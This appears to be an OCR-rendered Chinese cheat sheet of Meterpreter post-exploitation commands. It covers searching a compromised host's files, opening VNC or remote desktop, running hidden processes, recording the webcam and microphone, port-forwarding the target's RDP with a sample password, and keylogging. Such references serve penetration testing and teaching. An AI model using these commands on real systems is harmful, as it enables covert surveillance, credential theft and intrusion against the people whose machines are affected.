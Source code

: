 ~~~~~markdown
mv#修改目标主机上的文件名
search -d d:\\www -f web.config #search 文件，如
search  -d c:\\  -f *.doc
run vnc   查看桌面
	修改vnc配置
run  getgui  -e   开启目标主机远程桌面
sysinfo   命令为显示远程主机的系统信息
execute  -f notepad.exe
execute -h  显示帮助信息。-f为执行要运行的命令
如果希望隐藏后台执行，加参数-H
execute  -H -f notepad.exe

~~~~~

### 摄像头命令

~~~~
record_mic　　　 #音频录制

webcam_chat　　#查看摄像头接口

webcam_list　　　#查看摄像头列表

webcam_stream　#摄像头视频获取
~~~~

### 端口转发（不需要高权限，正常会话权限）

~~~markdown
portfwd -h
用法：portfwd [-h] [add | delete | list | flush] [args]
选项：
    -L <opt>要监听的本地主机（可选）
    -h帮助横幅
    -l <opt>要监听的本地端口
    -p <opt>连接到的远程端口
    -r <opt>要连接到的远程主机
portfwd  add -l 4444 -p 3389 -r 192.168.1.102 # 端口转发,本机监听4444,把目标机3389转到本机4444

rdesktop -u Administrator -p bk#123 127.0.0.1:4444 #使用rdesktop来连接桌面，-u 用户名 -p 密码
rdesktop 127.1.1.0:4444 #需要输入用户名和密码远程连接

~~~

### 键盘记录

~~~~markdown
keyscan_start：开启键盘记录功能
keyscan_dump：显示捕捉到的键盘记录信息
keyscan_stop：停止键盘记录

~~~~
